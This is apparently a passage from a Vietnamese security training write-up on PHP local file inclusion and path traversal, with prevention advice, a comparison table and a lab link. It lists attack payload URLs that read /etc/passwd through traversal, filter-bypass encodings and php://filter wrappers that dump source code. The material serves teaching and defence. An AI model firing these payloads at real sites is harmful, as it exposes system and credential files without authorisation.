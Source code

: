 ```
https://victim_site/home.php?file=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
https://victim_site/home.php?file=../../../etc/passwd/./././././.[ADD MORE] 
https://victim_site/home.php?file=../../../[ADD MORE]../../../../etc/passwd
```
**Filter bypass tricks:**
```
https://victim_site/home.php?file=....//....//etc/passwd
https://victim_site/home.php?file=..///////..////..//////etc/passwd
https://victim_site/home.php?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
**Using wrappers:**
```
https://victim_site/home.php?file=php://filter/read=string.rot13/resource=index.php
https://victim_site/home.php?file=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
https://victim_site/home.php?file=php://filter/convert.base64-encode/resource=index.php
https://victim_site/home.php?file=pHp://FilTer/convert.base64-encode/resource=index.php
```

## Cách phòng chống

Lỗ hổng xảy ra khi việc kiểm tra đầu vào không được chú trọng. Khuyến cáo riêng thì không nên hoặc hạn chế tới mức tối thiểu phải sử dụng các biến từ "User Input" để đưa vào hàm `include()` hay `eval()`.  Trong trường hợp phải sử dụng. với các thông tin được nhập từ bên ngoài, trước khi đưa vào hàm cần được kiểm tra kỹ lưỡng

1. Chỉ chấp nhận kí tự và số cho tên file (A-Z 0-9). Blacklist toàn bộ kí tự đặc biệt không được sử dụng.
2. Giới hạn API cho phép việc include file từ một chỉ mục xác định nhằm tránh directory traversal.

Tấn công File Inclusion có thể nguy hiểm hơn cả SQL Injection do đó thực sự cần thiết phải có những biện pháp khắc phục lỗ hổng này. Kiểm tra dữ liệu đầu vào hợp lý là chìa khóa để giải quyết vấn đề.


## So sánh Path Traversal và File Inclusion


|    So sánh      | Path Traversal | File Inclusion |
| --------------- | -----------    | -------------- |
| Định nghĩa      | Lỗ hổng Path Traversal xảy ra khi ứng dụng hoặc máy chủ web cung cấp cho người dùng khả năng **đọc** các tệp ở một vị trí hệ thống nội bộ mà lẽ ra không thể truy cập được. Nó giúp attacker **đọc** một số tệp quan trọng.        | Lỗ hổng File Inclusion xảy ra khi đầu vào của người dùng được sử dụng trực tiếp trong file được include mà không có bất kỳ bộ lọc nào, File đó sẽ được **đọc và thực thi** tại nơi nó được include . Nó giúp attacker include file hắn muốn **đọc và thực thi** ở local hoặc remote. |
| Tác hại       | Tác động của lỗ hổng này trong hầu hết các trường hợp là **không trực tiếp**, vì hầu hết thời gian và tất cả những gì chúng ta có thể làm với lỗ hổng này là đọc tệp. Việc **đọc** các tệp được giúp **thu thập thông tin** quan trọng về các chức năng của ứng dụng hoặc hệ thống và các lỗ hổng tiềm ẩn có thể xảy ra.           | Tác động của lỗ hổng này là **trực tiếp**. Việc **thực thi** được các codes **trực tiếp** trong ứng dụng có thể dẫn đến các cuộc tấn công nghiêm trọng khác như: RCE, XSS, ... |


# Lab File Inclusion:

Link to lab: https://github.com/tu3n4nh/trainingKCSC/tree/main/task_7_file_inclusion/lab_file_inclusion


# Root me
